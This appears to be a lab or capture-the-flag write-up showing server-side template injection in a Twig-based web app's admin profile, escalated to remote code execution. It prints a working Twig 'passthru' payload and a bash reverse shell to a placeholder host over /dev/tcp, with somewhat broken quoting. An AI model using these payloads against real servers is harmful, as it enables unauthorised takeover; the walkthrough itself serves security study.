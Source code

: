 ### Using SSTI to get Remote Code Execution (RCE)

**RCE (Remote Code Execution)** allows an attacker to run commands on a server remotely. If a web app uses a vulnerable template engine like **Twig** and injects user input directly into templates, it can lead to **SSTI**, which may be escalated to RCE—giving the attacker full control over the server.

#### Getting SSTI
- I tried  SSTI (Server Side Template Injection) here at the admin profile function

![](Photos/1b4561c2d68a0d9a6ea83b25f44bb3ab_MD5.jpeg)

- As the first name is shown in the title so we need to use some payloads to the first name to see the response in the browser

![](Photos/1dc71175faa2739553c27f310a106edf_MD5.jpeg)

- If I try this payload it should show me 49 as response

![](Photos/03691a5556c7abbb2d4fd75e2ac299ec_MD5.jpeg)

- And we have successfully exploited the ssti vulnerability here

![](Photos/bcfda89b4dbceb7d2da7f033e0d39f71_MD5.jpeg)

- Let Try to gain a reverse shell through command 

#### Getting RCE 


- After some research about twig I found some interesting payloads at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md#twig)

![](Photos/693eca5501e904f67eab0996c0bb9503_MD5.jpeg)

- For using system command I have to use `{{['id',""]|sort('passthru')}}`

![](Photos/5b52617379e012a7aa8d4671abf341a2_MD5.jpeg)

- And We successfully injected arbitrary system code

![](Photos/51df92a8607c98c76eb2c79664f702ed_MD5.jpeg)

### Crafting Reverse Shell

- We are going to use  a reverse shell here

```sh
bash -c 'exec bash -i >& /dev/tcp/Your_ip/8888 0>&1
```

```sh
{{['bash -c 'exec bash -i >& /dev/tcp/Your_ip/8888 0>&1',""]|sort('passthru')}}
```
